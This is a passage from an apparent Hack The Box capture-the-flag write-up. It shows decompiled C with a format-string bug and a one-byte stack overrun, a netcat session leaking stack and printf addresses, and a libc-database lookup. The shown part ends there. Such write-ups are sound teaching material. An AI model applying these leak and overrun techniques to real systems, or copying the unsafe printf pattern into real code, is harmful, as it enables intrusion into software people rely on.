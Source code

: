 ```c
                    /* WARNING: Subroutine does not return */
    exit(0x45);
  }
  printf("Your answer was: ");
  printf((char *)&local_28);
  reveal();
  return 0;
}
```


### reveal

```c
void reveal(void)

{
  undefined local_28 [32];
  
  printf("\"This is a gift from the craftsman.. [%p] [%p]\"\n",local_28,printf);
  printf("Now you can talk to the mirror.\n> ");
                    /* Overruns using local_28(+0,1,40) */
  read(0,local_28,0x21);
  return;
}
```

So, we have a one byte overrun from local_28 which means we can control the lower byte of the stored stack base pointer.  The addresses it gives us are a variable on the stack and the location of printf.  


## leaking libc

```text
❯ nc docker.hackthebox.eu 30272
✨ This old mirror seems to contain some hidden power..✨
There is a writing at the bottom of it..
"The mirror will reveal whatever you desire the most.. Just talk to it.."
Do you want to talk to the mirror? (y/n)
> y
Your answer was: y
"This is a gift from the craftsman.. [0x7ffda86edb00] [0x7f572b026f70]"
Now you can talk to the mirror.
> ^C
```

I will be using the lovely [libc-database](https://github.com/niklasb/libc-database) to figure out the libc version from the printf address it prints.  ASLR means the upper bits are useless but the lower 12 are fixed and so can be used to determine the libc version.  

```text
❯ ./find printf f70
ubuntu-old-glibc (libc6_2.24-9ubuntu2.2_i386)
ubuntu-old-glibc (libc6_2.24-9ubuntu2_i386)
ubuntu-glibc (libc6_2.27-3ubuntu1.3_amd64)
debian-glibc (libc6_2.31-4_i386)
```
